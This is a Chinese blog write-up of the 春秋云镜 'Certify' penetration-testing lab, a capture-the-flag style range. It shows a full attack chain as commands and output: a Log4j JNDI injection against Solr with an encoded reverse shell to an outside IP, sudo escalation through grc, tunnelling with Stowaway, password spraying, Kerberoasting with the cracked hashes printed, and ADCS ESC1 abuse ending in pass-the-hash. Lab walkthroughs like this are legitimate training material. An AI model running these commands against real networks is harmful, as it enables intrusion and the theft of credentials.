









+++
title= "春秋云镜Certify"
slug= "spring-autumn-mirror-certify"
description= "log4j、smb未授权、Kerberoasting攻击、ADCS ESC1"
date= "2025-08-22T17:48:09+08:00"
lastmod= "2025-08-22T17:48:09+08:00"
image= ""
license= ""
categories= ["春秋云镜"]
tags= ["Pentest"]

+++

## flag1

访问不出来正常服务，fscan扫一下， `./fscan -h 39.98.108.206 -p 0-65535`

```bash
39.98.108.206:22 open
39.98.108.206:80 open
39.98.108.206:8983 open
[*] alive ports len is: 3
start vulscan
[*] WebTitle http://39.98.108.206      code:200 len:612    title:Welcome to nginx!
[*] WebTitle http://39.98.108.206:8983 code:302 len:0      title:None 跳转url: http://39.98.108.206:8983/solr/
[*] WebTitle http://39.98.108.206:8983/solr/ code:200 len:16555  title:Solr Admin
```



发现了log4j，搜一下就知道路由了

```
http://39.98.124.32:8983/solr/admin/cores?action=${jndi:ldap://oqoloubyms.dgrh3.cn}
```



成功了，那我们反弹shell https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0

```bash
nc -lvnp 9999

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC84LjEzNy4xNDguMjI3Lzk5OTkgMD4mMQ==}|{base64,-d}|bash" -A 8.137.148.227

http://39.98.124.32:8983/solr/admin/cores?action=${jndi:ldap://47.109.176.117:1389/gyq4c3}
```

挨个试，成功反弹shell



sudo配置有安全问题，可以提权

```bash
solr@ubuntu:~$ sudo -l
sudo -l
Matching Defaults entries for solr on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User solr may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/grc
```

https://gtfobins.github.io/gtfobins/grc/ 

```bash
sudo grc whoami

sudo grc ls /root/
sudo grc ls /root/flag
sudo grc tac /root/flag/flag01.txt
```

## flag2

把fscan和stowaway通过wget传上去

```bash
cd /tmp

wget http://47.109.176.117/fscan
wget http://47.109.176.117/linux_x64_agent

chmod +x *
```

先扫描一下内网

```bash
solr@ubuntu:/tmp$ ifconfig
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.9.19  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe18:2972  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:18:29:72  txqueuelen 1000  (Ethernet)
        RX packets 185305  bytes 135483216 (135.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 110159  bytes 9288680 (9.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1550  bytes 178290 (178.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1550  bytes 178290 (178.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

solr@ubuntu:/tmp$ ./fscan -h 172.22.9.19/24
./fscan -h 172.22.9.19/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.9.7      is alive
(icmp) Target 172.22.9.19     is alive
(icmp) Target 172.22.9.47     is alive
(icmp) Target 172.22.9.26     is alive
[*] Icmp alive hosts len is: 4
172.22.9.26:445 open
172.22.9.7:445 open
172.22.9.47:445 open
172.22.9.26:139 open
172.22.9.47:139 open
172.22.9.7:139 open
172.22.9.26:135 open
172.22.9.7:135 open
172.22.9.47:80 open
172.22.9.7:80 open
172.22.9.19:80 open
172.22.9.47:22 open
172.22.9.47:21 open
172.22.9.19:22 open
172.22.9.19:8983 open
172.22.9.7:88 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo 
[*]172.22.9.26
   [->]DESKTOP-CBKTVMO
   [->]172.22.9.26
[*] NetBios 172.22.9.7      [+] DC:XIAORANG\XIAORANG-DC    
[*] WebTitle http://172.22.9.19        code:200 len:612    title:Welcome to nginx!
[*] NetInfo 
[*]172.22.9.7
   [->]XIAORANG-DC
   [->]172.22.9.7
[*] WebTitle http://172.22.9.47        code:200 len:10918  title:Apache2 Ubuntu Default Page: It works
[*] NetBios 172.22.9.47     fileserver                          Windows 6.1
[*] NetBios 172.22.9.26     DESKTOP-CBKTVMO.xiaorang.lab        �Windows Server 2016 Datacenter 14393
[*] OsInfo 172.22.9.47  (Windows 6.1)
[*] WebTitle http://172.22.9.7         code:200 len:703    title:IIS Windows Server
[*] WebTitle http://172.22.9.19:8983   code:302 len:0      title:None 跳转url: http://172.22.9.19:8983/solr/
[*] WebTitle http://172.22.9.19:8983/solr/ code:200 len:16555  title:Solr Admin
[+] PocScan http://172.22.9.7 poc-yaml-active-directory-certsrv-detect 
已完成 15/16 [-] ftp 172.22.9.47:21 ftp ftp111 530 Login incorrect. 
已完成 15/16 [-] ftp 172.22.9.47:21 ftp 666666 530 Login incorrect. 
已完成 15/16 [-] ftp 172.22.9.47:21 ftp Aa12345. 530 Login incorrect. 
```

- 172.22.9.7 XIAORANG\XIAORANG-DC
- 172.22.9.19 已拿下
- 172.22.9.26 DESKTOP-CBKTVMO.xiaorang.lab
- 172.22.9.47 fileserver

利用Stowaway搭建代理

```bash
./linux_x64_admin -l 2334 -s 123

./linux_x64_agent -c 47.109.176.117:2334 -s 123 --reconnect 8

use 0
socks 5555

sudo vim /etc/proxychains4.conf
```

fileserver一般会开启smbclient，利用nmap来进行端口扫描，

```bash
proxychains4 nmap -sT -Pn -n --top-ports 1000 172.22.9.47
# 或者全扫描
proxychains4 nmap -sT -Pn -n -p- 172.22.9.47
```

确实开启了445端口，用`smbclient`链接一下

```bash
proxychains4 impacket-smbclient 172.22.9.47

shares

use fileshare
cd secret
cat flag02.txt
```

## flag3&&flag4

同时看到了一个数据库

```bash
cd ..
get personnel.db
```

放到Navicat里面看一下





直接密码喷洒攻击，看看哪个用户可以登录到域内机器，导出之后是带引号的，一行一个数据，需要处理一下

```bash
cat xr_users.txt | sed 's/"//g' > passwords.txt
cat xr_salary.txt | sed 's/"//g' > usernames.txt


proxychains4 netexec rdp 172.22.9.26 -u usernames.txt -p passwords.txt --continue-on-success > rdp_results.txt 2>&1


grep "\[+\]" rdp_results.txt
```



```
xiaorang.lab\liupeng:fiAzGwEMgTY
xiaorang.lab\zhangjian:i9XDE02pLVf
```

并不是有效的用户密码，但是证明了存在这样的域用户，那就可以请求TGS票据，也就是**Kerberoasting攻击**

```bash
proxychains4 impacket-GetUserSPNs -request -dc-ip 172.22.9.7 xiaorang.lab/zhangjian:i9XDE02pLVf
```

得到两份hash，破解即可

```bash
$krb5tgs$23$*zhangxia$XIAORANG.LAB$xiaorang.lab/zhangxia*$2c381ee85ea38fba57f0b13d8bec4792$36ec4c8a84f332190a45b83d18aeb8389f138095424ace3d6b01b55355758bfb05297ac278c7141fb93655e743323c7ecf0bde480c0a5be41fbc86f21619af15f6b5a8eca85e8837566b966546e711c15f6cd8455462a1869c0ce1e4e202b623a2f32a644609208e1ea884df08f4e6acfbc204d99a56e5fb4e97a712e22d8697fc40d954926fd748640557deb840e882c4d51a5f32f65ccfbbc7e5965967ff36eb4428cd8fa2170c3c3f562ee2d295d209839e9b5dca904364bd8fbf926dbbf6553a89b9526f9b59f04033f6f5f9ba8d57bdbd323678f76791351181782cf032458ae6149566f0a181c6d5baf5f07a8868ac7318a560536c6570c8b5e2f76ee91f4ed8ef6c1cd1933f7b73b0fe28ce00f54350cad7cfb44691ae87f795f2bc324b599d8bd07ab77c8582cbe3943935f01daa6bbfa70911cc62c272f8376c131e6d884d2de4fe2e5406c528d762e4f7e9fbcc2cdc67485eb503ae68496e2f7fcfe7d4c1c7644b5530960f1551211f5092bf0489fbbdac052d86a6090da290816fba814779ffb55c86a5350264a9d06a974bccff4e1644ff28c20fb8d8cf171b555b1dbb4bccf49fe9f1404ed468818e718fae0192e298251c05e971a378179311fe4b64e6b4bab5634f2dbdb988841b7e73a58e5d4c0c06d3fe7b934c108a8f4f998657129de1207550b758060ba153bea5beb12fcabda755e2d1476cbe6b134cf5b8ed21dae1ad29c212b1a3eb04684c262eefd0105fa7a089416352fa92ae3036a21953b612157c425b325a3aa517e5aaace6082b1eae636a2c9ece677442af4139f52823f0fcb407998b43050c2b960122b17b872cae2c0e35114757d35c30af3485e2ce2ee94068f38aa4f00ec84b1955ae1c406fa5d8eb3353cb3c22f9921017b17dd55308e740ef832f2128c6de1486093cd8dc78ff8d8de360abea179fa5e5ddd17c2795e56f1236c426ed07b4c4e68f3f08999da95cacd7b1d109f7ebf01b2425b458286e22a6a15b2a39be0df801a7ff75527e665772e89404ce39779051c22601c346e31a5f3af465b2d965f04ccc3d276e8bb623bd985fb8d40bca206da38dcba4e5dad760d4a257b9e6da74dc868c61732063e31e8b5a6e33bb546df0991f8829c08fa0b8c9720151be5a0d2feaecfa10d6c2d6f0144698118824885c40f230d3b61c72449fdc745893046a022f0db19146964107af91917819bbce2ba9325ba8dead142e85b89e3883fd7197d3b563021989b134648e9de36eb9bfd34126f23061d2cd4077d400b7e436d0924dc981b72ef43c103d25cacb488ccf95ec1cb2cdac706f245248e985938d603806ef49dfe92262f9694f5f2a6890df3b96da19d4dc77e852563baaf52cc2ef1e4461af70288cae8df3c3fccb15eaf47cdde2a37271dbcaeac9de5fc1eb2337a813d1ee5f8b9a7959f0412d03b16f70420438e623a4dbef7fd6bb4a974e7b7a39f6a4eb1d2f6f84b57508790659e239f8bd69e99f1540dbcdf568a473
$krb5tgs$23$*chenchen$XIAORANG.LAB$xiaorang.lab/chenchen*$4cbb191420cba9216660335c0a767204$ed581dff63d30b0b9d77c3a54d0dff0ff4ec76edc43b45dc3d575269fe8efeb9199c98cb8fb1e3f1639dd403e6ccd790b1a5325ebb279c75089b4bea3f381f6661e8b3d3bca1008786e6af5eb230b3eb534dafa8d7ab58a30b0bcfd2a7b6e3f1fc227ec88e09f57e57d16e11167cfbe14295df98eb31353554a4008ac0ca2b176d2feab9a1d3a834ab1fd8cf8a520b893c6bbb5f1b840d231ae3d7a0c46b106115317b9b2f706b7678860726e08f65b020d4ed66f5ab120f42a9a113dcd0495925c0f52a51d10d1acc975bda9cbd252fd4a48d1f9619cdfffa1eee5fdae164c65364b50f37790f3f49f011689f568940cab29bfe231068980c341fcd65e927752a9176d6cca847fd201f13c86cda3a3e14b37fdb4d29d6dacec8302d4800c226fd5bd75f9b8640bd837167bed3266cb09debc1d53f0896c78a0610f651a2cd8cc9c356d7342fb81b540642209a9d64776deb0fdd810cad7799f6c6ab661bfbad4fc0f69e78f0da86504947b94b57c05769f930a7db923ee5c750020dcdeb986add29748fb506eb7600809457a947a7aad74c540a91cc305966d0f393c0596aa3985a5d9b41f5509f456ff71bc7b948ed5b140f4e240cae4c5be2f310747bc0b7c88ea69e5c3b23927f4944e7236814b50d96096e82644257b36e56ade710b19da5b5fa8fdda507ee1e2a3f8d28546ca300860f685fbada366c26c8ac7f8e9a2a0656c67977edd58566e9522fc1cd09e688b5bae3a768119e0a2426893bd045d53222737704a9d963f79d1eab96a8bb6a660599a1566f952ce4fef225dd242589434ee5989f593c1997a98585f98f9a68fa731e59eb1ff9b9d0cec51a9be0d4a529901ef2b3cfb6913eb4c73da0d17d5ff39252efb421fc76f0854607dbba25e9a4514775fb6c818f4c6fe9ac0a4a698da6e801194888ba1c24304b6714d24c01417c02837a8793ff3ea7420fd4da55e9063c6c254a160e1f504e3246bc767ee5ab6a257b8b202d7214b1db972e888936e24b2fba5c8609733080cb250ffb5186523a583d6803ece9970cce16d7714197d367d8d057998043de7533f59b8c106c16772549fd9fb87fd9443b5b25be7923cd480c3f29b74a62251cda90ac80f04f502e4510e53f9639d8bc303e48de54e6c000a658e0af4c2509252d51e760ad757590605291be7e63f0e635de96a181c6e73a7ae352e384092411946106b939d0d84bb1b175da4889507b24d744445b3c463a17b6a4e93f3d0c0df82c198ed19dc3e12de8b5d9970fe40d71ac29ffbf0d41feff600f2c599b199e5e3323f3aeb3bf286c1fd6bb53ca761e1323ab48cfc3d7b8a4c103bdd7a35f60687f88ccd5a53fb45745508449004165990abc5934a0d0ab90ba72a37894a2b07ae5388aa5b127f88f47303b0749906f43bf768350686b4039807e9699d03c117c88cc34f303347ccd9bbe33b48525cbdeaa3276514ebd2afed797dec40cb4eea2c286068a6e48939c8f841de72edc4ecc0671c1
```

保存为1，利用hashcat进行爆破，`.\hashcat -m 13100 -a 0 1 rockyou.txt --force`

```bash
XIAORANG.LAB\zhangxia
MyPass2@@6

XIAORANG.LAB\chenchen
@Passw0rd@
```

登录172.22.9.26，收集域内信息

```cmd
cd C:\Users\zhangxia\Desktop
SharpHound.exe -c all
```

看到有个逆天的关系



只要是在DOMAIN USERS@XAIORANG.LAB这个组里面的用户就可以打ADCS ESC1



满足条件，先查询证书模版

```bash
┌──(kali㉿kali)-[~/桌面/Pentest/impacket-master/examples]
└─$ proxychains4 -q certipy-ad find -u 'zhangxia@xiaorang.lab'  -password 'MyPass2@@6' -dc-ip 172.22.9.7 -vulnerable -stdout
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'xiaorang-XIAORANG-DC-CA' via RRP
[*] Successfully retrieved CA configuration for 'xiaorang-XIAORANG-DC-CA'
[*] Checking web enrollment for CA 'xiaorang-XIAORANG-DC-CA' @ 'XIAORANG-DC.xiaorang.lab'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : xiaorang-XIAORANG-DC-CA
    DNS Name                            : XIAORANG-DC.xiaorang.lab
    Certificate Subject                 : CN=xiaorang-XIAORANG-DC-CA, DC=xiaorang, DC=lab
    Certificate Serial Number           : 43A73F4A37050EAA4E29C0D95BC84BB5
    Certificate Validity Start          : 2023-07-14 04:33:21+00:00
    Certificate Validity End            : 2028-07-14 04:43:21+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : XIAORANG.LAB\Administrators
      Access Rights
        ManageCa                        : XIAORANG.LAB\Administrators
                                          XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
        ManageCertificates              : XIAORANG.LAB\Administrators
                                          XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
        Enroll                          : XIAORANG.LAB\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP.
Certificate Templates
  0
    Template Name                       : XR Manager
    Display Name                        : XR Manager
    Certificate Authorities             : xiaorang-XIAORANG-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2023-07-14T04:51:15+00:00
    Template Last Modified              : 2023-07-14T04:51:44+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Domain Users
                                          XIAORANG.LAB\Enterprise Admins
                                          XIAORANG.LAB\Authenticated Users
      Object Control Permissions
        Owner                           : XIAORANG.LAB\Administrator
        Full Control Principals         : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
        Write Owner Principals          : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
        Write Dacl Principals           : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
        Write Property Enroll           : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Domain Users
                                          XIAORANG.LAB\Enterprise Admins
    [+] User Enrollable Principals      : XIAORANG.LAB\Authenticated Users
                                          XIAORANG.LAB\Domain Users
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

再去请求域管凭证证书pfx

```bash
proxychains certipy-ad req -u 'zhangxia@xiaorang.lab' -p 'MyPass2@@6' -target 172.22.9.7 -dc-ip 172.22.9.7 -ca 'xiaorang-XIAORANG-DC-CA' -template 'XR Manager' -upn 'administrator@xiaorang.lab'
```

再利用证书获取TGT

```bash
proxychains certipy-ad auth -pfx administrator.pfx -dc-ip 172.22.9.7
```



```bash
proxychains4 impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:2f1b57eefb2d152196836b0516abea80 Administrator@172.22.9.7 -codec gbk

cd Users\Administrator\flag
type flag04.txt

proxychains4 impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:2f1b57eefb2d152196836b0516abea80 xiaorang.lab/Administrator@172.22.9.26 -codec gbk

cd Users\Administrator\flag
type flag03.txt
```

